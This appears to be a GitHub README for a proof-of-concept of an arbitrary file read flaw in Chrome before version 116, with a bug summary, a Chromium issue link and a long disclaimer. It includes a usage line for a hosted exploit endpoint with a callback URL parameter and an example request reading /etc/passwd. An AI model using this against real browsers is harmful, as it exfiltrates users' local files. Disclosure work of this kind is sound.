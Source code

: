# 👀 All-Seeing Eye

Arbitrary File Read Vulnerability in Chrome Versions Prior to 116

![demo](/public/demo.jpg)

## 🔥 Example

👉 /api/hello?path=`file-path`&callback=`url`

```
https://all-seeing-eye-six.vercel.app/api/hello?path=file:///etc/passwd
```

## 🐛 Bug Report

Insufficient validation of untrusted input in XML in Google Chrome prior to 116.0.5845.96 allowed a remote attacker to bypass file access restrictions via a crafted HTML page. (Chromium security severity: Medium)

[https://bugs.chromium.org/p/chromium/issues/detail?id=1458911](https://bugs.chromium.org/p/chromium/issues/detail?id=1458911)

## ⚠️ Disclaimer

The contents of this repository, including code, demonstrations, and documentation (collectively referred to as "the material"), are provided for educational and informational purposes only. The material is intended to demonstrate the existence of an arbitrary file read vulnerability in Chrome browsers before version 116 and to inform the community and affected parties so that they may better protect against such vulnerabilities.

Under no circumstances should the material be used for illegal, unethical, or malicious purposes. The creator of this repository does not condone or support any form of illegal or unethical activity. The responsibility for ensuring that any application of the material complies with applicable laws and regulations lies solely with the user.

Any user who chooses to utilize the material in this repository does so at their own risk and discretion. The creator of this repository shall not be held liable for any direct or indirect damage caused by the use or misuse of the material. It is the user's responsibility to use the information provided here in a manner that is consistent with ethical guidelines and legal requirements.

By accessing, viewing, or using the material in this repository, you acknowledge and agree that you have read and understood this disclaimer, and you accept all risks and responsibilities associated with the use of the material.
